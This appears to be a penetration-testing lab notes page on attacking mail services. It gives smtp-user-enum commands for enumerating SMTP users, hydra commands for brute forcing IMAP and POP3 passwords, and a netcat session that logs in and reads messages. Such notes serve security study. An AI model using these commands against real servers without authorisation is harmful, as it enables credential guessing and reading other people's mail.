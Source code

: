 ### SMTP (24, 465, 587 TCP)

> [25,465,587 - Pentesting SMTP/s | HackTricks | HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smtp)

Once you have a domain name to work with and a list of possible usernames (& departments) you can identify department mailboxes that exist on the server using smtp-user-enum:

~~~ad-check
title:SMTP Brute Force

```bash
smtp-user-enum -M RCPT -U wordlist.txt -t 10.10.239.94
```
*Screenshot*
___

___
~~~

### POP and IMAP

> [110,995 - Pentesting POP | HackTricks | HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-pop)
> [143,993 - Pentesting IMAP | HackTricks | HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-imap)

If any valid users were identified and POP3/IMAP services are running we might want to guess for simple passwords:

*Note*: In order to perform this bruteforce attack, you will need to strip off the '@domain' part and only use the username.

~~~ad-check
title:IMAP Brute Force
```bash
hydra -L users.txt -P users.txt 10.10.239.94 -e nsr imap(s)
```

```bash
hydra -L users.txt -P users.txt 10.10.239.94 -e nsr pop3(s)
```

*Screenshot*
___

___
~~~

If this attack returns valid credentials, we can connect to POP3/IMAP using the following command to access mailboxes to read messages:

~~~ad-check
title:Logging into POP3/IMAP

```bash
nc -nv 10.10.239.94 110
USER {user}
PASS {pass}
LIST # show messages
RETR {number} # read message
```

*Screenshot*
___



~~~
